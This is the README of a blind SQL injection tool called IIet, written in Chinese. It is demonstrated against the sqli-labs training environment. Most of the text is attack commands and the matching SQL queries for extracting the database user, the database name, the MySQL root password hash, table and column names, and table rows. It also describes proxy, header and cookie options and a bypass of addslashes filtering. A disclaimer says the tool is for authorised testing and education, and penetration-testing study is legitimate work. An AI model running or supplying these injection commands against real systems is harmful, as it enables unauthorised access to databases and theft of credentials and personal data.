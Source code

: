 # IIet(Injection-information-extraction-tool)
盲注信息提取工具

## 0x01摘要

这是一个通过整数型注入获取数据库信息的脚本(支持盲注)，支持get/post请求方式，可以携带cookie/身份信息，适用于url/data/cookie注入，它可以获取user()，database()，root密码的hash值，以及当前数据库中的表信息，可以bypass魔术引号的过滤(addslashes)。

## 0x02参数

![image-20240909153203921](images/image-20240909153203921.png)

## 0x03使用方式(举例[sqllabs](https://github.com/Audi-1/sqli-labs))

发现了一个整数型注入点

![image-20231228155604606](images/image-20231228155604606.png)

![image-20231228155614119](images/image-20231228155614119.png)

![image-20231228155627032](images/image-20231228155627032.png)

收集信息：

漏洞URL为http://192.168.128.130/Less-2
请求方式是`get`，注入点位置在`url`中，参数名为`id`，然后找返回包的不同点，我在这里举例为`id=2`以及`id=1`的返回包信息，相对于`id=2`的返回包，`id=1`的返回包回显了`Dumb`这个字符串。

依据脚本提示输入参数就可以获取数据库信息了

执行结果如下

```sql
select user();
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m user -t numeric
```

请求`url`：`http://sqllabs.com/Less-2 `，注入点在`url`中，注入点参数为`id`，`id`值为2，特征字符串为`Dumb`(相比于`id=2`，`id=1`的返回包回显了`Dumb`字符串数据)，获取`user`数据，`http://sqllabs.com/Less-2`源码中存在`numeric数据`，通过`-t`测试请求

![image-20240909155747067](images/image-20240909155747067.png)

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m user -t numeric -U ming -P 127.0.0.1:8080 -H "token=2&jwt=9" -C phpsession=1;username=admin 
```

自定义`User-Agent`为`ming`，添加代理参数，请求数据代理流转到`127.0.0.1:8080`，添加请求头`token:2`以及`jwt:9`，添加`Cookie`，`phpsession=1`以及`username=admin`

![image-20240909160950290](images/image-20240909160950290.png)

```sql
select authentication_string from mysql.user where user='root';
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m password -t numeric
```

提取`root`用户的`密码`

![image-20240909161217782](images/image-20240909161217782.png)

```sql
select database();
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m database -t numeric
```

![image-20240909161305749](images/image-20240909161305749.png)

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = database()
```

```
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m table -t numeric
```

![image-20240909161423645](images/image-20240909161423645.png)

```sql
select column_name FROM information_schema.columns WHERE table_name = (select table_name FROM information_schema.tables WHERE table_schema = database() limit 0,1)
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -S 1 -m column -t numeric
```

`-S 1`代表当前数据库第一个表`emails`  `-m column`获取列

![image-20240909161831149](images/image-20240909161831149.png)

```sql
select id,email_id from emails
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m data -T emails -l "id email_id" -t numeric
```

![image-20240909162400799](images/image-20240909162400799.png)

## 更新日志

### 版本更新(2024/10/28)

增加banner

### 版本更新(2024/10/8)

修复数据库表中文字符乱码的问题

![image-20240911162455940](images/image-20240911162455940.png)

### 版本更新(2024/9/10)

使用二分法提取数据，减少访问次数，修复bug(表中的数据行数)

![image-20240910031204946](images/image-20240910031204946.png)

![image-20240910031141835](images/image-20240910031141835.png)

### 版本更新(2024/9/9)

`argparse`传参，增添代理功能，自定义`Headers`，自定义`User-Agent`

## 免责声明

本工具仅用于合法的授权安全测试和教育目的。未经授权访问或测试未授权的系统是非法的，会产生法律责任。 

本工具的作者概不负责任何非法或未经授权使用此工具所产生的后果。使用者承担使用本工具的全部责任。 
